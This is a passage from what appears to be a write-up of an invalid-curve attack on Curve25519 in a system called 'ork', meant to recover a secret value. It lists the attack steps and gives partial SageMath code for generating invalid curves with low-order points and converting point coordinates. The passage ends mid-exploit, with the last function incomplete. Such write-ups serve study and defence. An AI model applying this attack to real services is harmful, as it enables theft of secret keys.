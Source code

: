 create a random invalid Montgomery curve --> 
generate a point of low order --> 
convert point to twisted form --> 
send twisted point to ork and receive new twisted point --> 
convert new point back to montgomery --> 
compute the discrete log of the points using Polhig-Hellman algorithm over the invalid montgomery curve --> 
do this multiple times and combine the discrete log results using Chinese Remainder Theorem to get prism value

I now have all the pieces I need to run the ICA. 

For brevity, and because I don't understand them well, I will skip explaining the Polhig-Hellman algorithm and Chinese Remainder Theorem. 
Resources for these can be easily found on google, and are explained in some of the articles I linked above 


<h3>Exploit</h3>

The following codes were written in Sagemath (it's basically Python).
Here's how I would create a regular Curve25519:

```
p = 2^255-19
E = EllipticCurve(GF(p), [0, 486662, 0, 1, 0])
order = E.order()
```

what I wanted was to create a random invalid curve by changing the "A" parameter in v^2 = u^3 + A*u^2 + u, and also generate a point of low order from the invalid curve, 
so I created a function like this: 

```
def create_point(p=2^255-19, a1=0, a2=486662, a3=0, a4=1, a6=0):
    E = EllipticCurve(GF(p), [a1, a2, a3, a4, a6])
    order = E.order()
    factors = prime_factors(order)

    valid = []
    for factor in factors:
        if factor <= 2**35:
            valid.append(factor)
    if len(valid) == 0:
        return None, None, None
    
    prime = valid[-1]
    G = E.gen(0) \* int(order / prime)  # finds point of order "prime", which is a low order

    return prime, E, G
```

Next, these are the functions I used to convert the points from one curve to another:

```
# (u, v) = ((1+y)/(1-y), sqrt(-486664)*u/x)
def twisted_to_montg(p, x, y, d=-486664):
    gf=GF(p)
    X_P = gf(x)
    Y_P = gf(y)
    u = (1+Y_P)/(1-Y_P) 
    v = gf(d).sqrt()*u/X_P
    return (u, v)

# (x, y) = (sqrt(-486664)*u/v, (u-1)/(u+1))
def montg_to_twisted(p, u, v, d=-486664):
    gf=GF(p)
    x = gf(d).sqrt()*u/v
    y = (u-1)/(u+1)
```